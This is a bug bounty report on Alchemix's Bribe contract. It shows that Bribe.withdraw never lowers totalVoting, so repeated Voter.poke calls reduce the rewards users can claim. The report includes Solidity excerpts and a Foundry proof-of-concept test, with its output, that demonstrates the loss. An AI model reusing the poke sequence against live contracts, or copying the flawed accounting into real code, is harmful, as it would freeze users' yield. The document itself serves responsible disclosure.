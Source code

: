 
# Users might receive less rewars token after `Voter.poke` is called.

Submitted on May 14th 2024 at 20:56:20 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31199

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
A token owner can call `Voter.poke` to update the voting power, during the `Voter.poke` call, the `Bribe.totalVoting` isn't updated correctly, which results that the `Bribe.earned` will not calculate the rewards correctly.

## Vulnerability Details
While a token owner calls [Voter.poke](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L194-L212), `Voter._reset` is called at the beginning of the [Voter._vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L413).
In `Voter._reset`, `Bribe.withdraw` is called in [Voter.sol#L396](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L396)
And `Bribe.withdraw` is defined [as](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L319-L329)
```solidity
319     function withdraw(uint256 amount, uint256 tokenId) external {
320         require(msg.sender == voter);
321 
322         totalSupply -= amount;
323         balanceOf[tokenId] -= amount;
324 
325         _writeCheckpoint(tokenId, balanceOf[tokenId]);
326         _writeSupplyCheckpoint();
327 
328         emit Withdraw(msg.sender, tokenId, amount);
329     }
```

On other side, `Bribe.deposit` is defined [as](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L303-L316)
```solidity
303     function deposit(uint256 amount, uint256 tokenId) external {
304         require(msg.sender == voter);
305 
306         totalSupply += amount;
307         balanceOf[tokenId] += amount;
308 
309         totalVoting += amount;
310 
311         _writeCheckpoint(tokenId, balanceOf[tokenId]);
312         _writeSupplyCheckpoint();
313         _writeVotingCheckpoint();
314 
315         emit Deposit(msg.sender, tokenId, amount);
316     }
```


**As show above, `totalVoting` isn't updated in `Bribe.withdraw`, and the function doesn't call `_writeVotingCheckpoint` to update the checkpoint**.

Then, while calculating the reward in [Bribe.earned](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L221-L280),  the function uses `votingCheckpoints.votes` to calculate the rewards in [Bribe.sol#L255-L261](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L255-L261) and [Bribe.sol#L268-L277](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L268-L277)

```solidity
221     function earned(address token, uint256 tokenId) public view returns (uint256) {
...
242         if (_endIndex >= 0) {
243             for (uint256 i = _startIndex; i <= _endIndex; i++) {
...
254                 prevRewards.timestamp = _nextEpochStart;
255                 _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes; <<<--- totalVoting is used here
256 
257                 // Prevent divide by zero
258                 if (_prevSupply == 0) {
259                     _prevSupply = 1;
260                 }
261                 prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
262             }
263         }
...
268         uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes; <<<--- totalVoting is used here
...
279         return reward;
280     }
```

So to sum up, during `Voter.poke` call:
1. `Bribe.withdraw` will be called, but within the function `Bribe.totalVoting` isn't deducting `amount`
1. `Bribe.deposit` will be called in [Voter._vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L441), but this time, `Bribe.totalVoting` is added `amount`
So `Voter.poke` function will cause `Bribe.totalVoting` to increase.
Then when calculating the rewards amount in `Bribe.earned`, `Bribe.totalVoting` is used, which will result wrong amount of rewards.


## Impact Details
User might receive less reward token after `Voter.poke` is called, and the unclaimed reward token will stuck in the contract.
## References
Add any relevant links to documentation or code



## Proof of Concept
Add the following code to `src/test/Voting.t.sol`, and run 
```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/$API --fork-block-number 17133822 --mc VotingTest --mt testAliceBribes -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testAliceBribesNoPoke() (gas: 3532165)
Logs:
  token1 earned aura     :  50000
  token2 earned aura     :  50000

[PASS] testAliceBribesPoke() (gas: 3797647)
Logs:
  token1 earned aura     :  20000
  token2 earned aura     :  20000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.93ms (10.25ms CPU time)

```

From the output we can see that 
1. in `testAliceBribesNoPoke` Alice doesn't call `Voter.poke`, token1 and token2 will get 50000*1e18 aura
2. in `testAliceBribesPoke`, Alice calls `Voter.poke` 3 times, token1 and token2 will get 20000*1e18 aura

```solidity
    function testAliceBribesNoPoke() public {
        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 initialTimestamp = block.timestamp;

        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);
        tokens[0][0] = bal;
        tokens[0][1] = aura;

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);

        // Adding a bribe to a gauge should increase the bribes list length
        // Should be able to add a bribe at any point in an epoch
        hevm.warp(block.timestamp + 6 days);
        createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

        hevm.warp(block.timestamp + 8 days);
        console2.log("token1 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId1) / 1e18);
        console2.log("token2 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId2) / 1e18);
    }
    function testAliceBribesPoke() public {
        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 initialTimestamp = block.timestamp;

        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](2);
        tokens[0][0] = bal;
        tokens[0][1] = aura;

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Alice);
        voter.poke(tokenId1);
        hevm.prank(Alice);
        voter.poke(tokenId1);
        hevm.prank(Alice);
        voter.poke(tokenId1);

        // Adding a bribe to a gauge should increase the bribes list length
        // Should be able to add a bribe at any point in an epoch
        hevm.warp(block.timestamp + 6 days);
        createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

        hevm.warp(block.timestamp + 8 days);
        console2.log("token1 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId1) / 1e18);
        console2.log("token2 earned aura     : ", IBribe(bribeAddress).earned(aura, tokenId2) / 1e18);
    }
```
